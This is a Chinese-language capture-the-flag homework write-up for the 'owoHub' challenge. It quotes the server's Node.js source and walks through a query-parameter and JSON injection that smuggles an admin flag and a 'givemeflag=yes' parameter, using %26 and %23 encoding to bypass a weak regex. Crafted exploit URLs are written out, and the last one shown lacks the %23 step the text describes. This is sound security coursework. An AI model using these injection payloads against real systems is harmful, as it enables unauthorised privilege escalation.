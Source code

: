 ###### tags: `程式安全`
# Secure Programming HW0 Writeup
## owoHub
### 解法:
打開source code後發現下面這段code
仔細閱讀發現它會吃/auth後面放的username與cute參數，經過type與regular expression檢查後放到userInfo裡面，最後對Internal Server發request取得flag
```javascript
app.get('/auth', (request, response) => {
    const { username, cute } = request.query;

    if (typeof username !== "string" || typeof cute !== "string" ||
        username === "" || !cute.match("(true|false)$")) {
        response.send({ error: "Whaaaat owo?" });
        return;
    }

    if (username.match(/[^a-z0-9]+/i)) {
        response.send({ error: "`Username` should contain only letters & numbers, owo." });
        return;
    }

    const userInfo = `{"username":"${username}","admin":false,"cute":${cute}}`;

    const api = `http://127.0.0.1:9487/?data=${userInfo}&givemeflag=no`;
    http.get(api, resp => {
        resp.setEncoding("utf-8");
        if (resp.statusCode === 200)
            resp.on('data', data => response.send(data));
        else
            response.send({ error:  "qwq..." });
    });
})
```
而從authServer的判斷式來看，必須讓givemeflag為"yes"以及admin為true才能拿到FLAG
```javascript
if (givemeflag === "yes" && userInfo.admin) 
// You don't need to be cute to get the flag ouo!
        response.send(FLAG);
```
可以控制的輸入為username與cute，開始尋找檢查的漏洞
檢查regular expression後發現username只能輸入英文與數字沒有漏洞，而cute只有結尾要是true或false，前面放什麼並沒有限制，這樣就可以塞進奇怪的東西
```
!cute.match("(true|false)$")
```
由於它會把cute直接放進userInfo裡面，而JSON後面的變數值會取代前面的變數值，把"admin":true配合逗號放入cute裡面，剛好也是true結尾符合regex
```
https://owohub.zoolab.org/auth?username=fuck&cute=true,"admin":true
```
然後還要把givemeflag改成yes才能拿到flag，但是它送給authServer的request中預設givemeflag為no
由於request的網址是把userInfo直接塞進來並在外面包上{}，一樣可以透過cute補上}同時用&塞入givemeflag參數
然而直接寫&後面會被視為另一個參數然後被request.query篩掉，所以改寫%26來讓它以為跟cute是同一個參數，最後再補上一個%26{true，把url後半段串起來同時符合cute的regex
```
https://owohub.zoolab.org/auth?username=fuck&cute=true,%22admin%22:true,%22hello%22:true}
%26givemeflag=yes%26{true
```
但是因為有兩個givemeflag，query會把值串在一起導致givemeflag判斷失敗，還是必須要註解掉givemeflag=no
想了半天之後，想起凱哥的講義裡講url的時候有講到fragment這個東西，剛好可以拿來用
為了把givemeflag=no蓋掉，我們使用fragment(#)，一樣為了避免被request.query篩掉使用%23，把上面的%26改成%23就可以得到flag
```
https://owohub.zoolab.org/auth?username=fuck&cute=true,%22admin%22:true,%22hello%22:true}
```